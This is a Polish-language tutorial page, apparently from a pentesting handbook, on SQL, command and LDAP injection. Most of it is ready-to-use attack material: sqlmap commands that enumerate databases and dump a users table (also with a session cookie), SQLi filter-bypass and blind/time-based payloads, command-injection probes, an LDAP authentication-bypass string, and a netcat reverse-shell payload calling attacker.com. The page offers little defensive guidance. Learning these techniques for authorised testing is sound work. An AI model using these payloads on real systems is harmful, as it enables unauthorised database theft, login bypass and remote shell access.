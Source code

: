 ```yaml
---
id: "injection-attacks"
title: "💉 Injection Attacks (SQL Injection, Command Injection, LDAP Injection)"
sidebar_position: 7
---
```


# 💉 Injection Attacks (SQL Injection, Command Injection, LDAP Injection)

Ataki typu Injection polegają na wstrzyknięciu złośliwego kodu do aplikacji webowej w celu manipulacji danymi lub wykonania nieautoryzowanych poleceń. W tej sekcji omówimy najczęściej spotykane rodzaje ataków: **SQL Injection, Command Injection oraz LDAP Injection**.

---

## 🛠️ SQL Injection
SQL Injection (SQLi) polega na manipulacji zapytaniami SQL w celu uzyskania nieautoryzowanego dostępu do bazy danych.

### **1️⃣ Wykorzystanie sqlmap**
`sqlmap` to narzędzie automatyzujące wykrywanie i eksploatację SQL Injection.

#### **Podstawowe skanowanie**
```bash
sqlmap -u "http://example.com/index.php?id=1" --dbs
```
Opcje:
- `--dbs` – wyświetla dostępne bazy danych
- `--tables` – wyświetla tabele danej bazy danych
- `--columns` – wyświetla kolumny w tabeli

#### **Eksfiltracja danych**
```bash
sqlmap -u "http://example.com/index.php?id=1" -D mydb -T users --dump
```
Wyciąga wszystkie rekordy z tabeli `users`.

#### **Wykorzystanie sesji i cookies**
Jeżeli aplikacja wymaga autoryzacji:
```bash
sqlmap -u "http://example.com/profile.php?id=5" --cookie="PHPSESSID=xyz123" --dbs
```

---

## 🚀 Bypassowanie filtrów
Wiele aplikacji stosuje mechanizmy obronne, ale można je obejść stosując różne techniki:

### **1️⃣ Użycie znaków zastępczych**
```sql
?id=1' OR '1'='1
```

### **2️⃣ Zmiana kodowania**
W niektórych przypadkach można ominąć filtry poprzez enkodowanie znaków:
```sql
?id=1%27%20OR%20%271%27%3D%271
```

### **3️⃣ SQL Injection w JSON/API**
Jeśli aplikacja komunikuje się przez API:
```json
{"user": "admin' OR '1'='1", "password": "test"}
```

---

## 🔎 Blind SQLi i czasowe ataki
Jeżeli aplikacja nie zwraca błędów SQL, można wykorzystać **Blind SQL Injection**.

### **1️⃣ Boolean-based Blind SQLi**
Sprawdzenie, czy aplikacja zwraca różne wyniki dla TRUE/FALSE:
```sql
?id=1' AND 1=1 -- 
?id=1' AND 1=2 -- 
```
Jeżeli pierwszy zwraca dane, a drugi nie – aplikacja jest podatna.

### **2️⃣ Time-based Blind SQLi**
Jeśli aplikacja nie zwraca żadnych danych, można sprawdzić podatność przez opóźnienia:
```sql
?id=1' AND SLEEP(5) -- 
```
Jeśli serwer odpowiada z opóźnieniem, to aplikacja jest podatna na SQLi.

W `sqlmap`:
```bash
sqlmap -u "http://example.com/index.php?id=1" --technique=T
```

---

## 🖥️ Command Injection
Command Injection pozwala na wykonanie poleceń systemowych poprzez podatną aplikację.

### **1️⃣ Wykrywanie podatności**
Podstawowe payloady:
```bash
http://example.com/ping.php?host=127.0.0.1; id
http://example.com/ping.php?host=127.0.0.1 && whoami
```

### **2️⃣ Eksploatacja**
Przykładowe wykorzystanie:
```bash
?host=127.0.0.1 | nc -e /bin/bash attacker.com 4444
```

---

## 📂 LDAP Injection
LDAP Injection jest atakiem na systemy uwierzytelniania oparte na LDAP.

### **1️⃣ Przykład podatnego zapytania**
```bash
(&(user=admin)(password=mypassword))
```
Można go obejść poprzez:
```bash
admin)(&))(
```

### **2️⃣ LDAP Injection payloads**
- `*)(&)` – bypassowanie autoryzacji
- `*` – wyszukiwanie wszystkich użytkowników

---

Ataki Injection są jednymi z najczęściej wykorzystywanych podatności w aplikacjach webowych. Kolejnym krokiem będzie analiza podatności związanych z **Broken Authentication & Session Management**. 🔐